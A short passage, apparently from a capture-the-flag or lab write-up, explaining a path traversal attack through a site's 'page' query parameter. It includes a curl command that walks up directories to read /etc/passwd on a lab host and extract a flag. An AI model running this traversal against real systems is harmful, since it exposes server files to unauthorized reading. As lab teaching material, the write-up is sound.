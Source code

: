 On the website routing is handled by the _page_ query parameter. We can try inserting relative paths to parent directories to find config files on the server.

```bash
curl -s -X GET "http://192.168.56.101/index.php?page=../../../../../../../../../etc/passwd" | grep -oP 'The flag is : \K[0-9a-f]{64}'
```
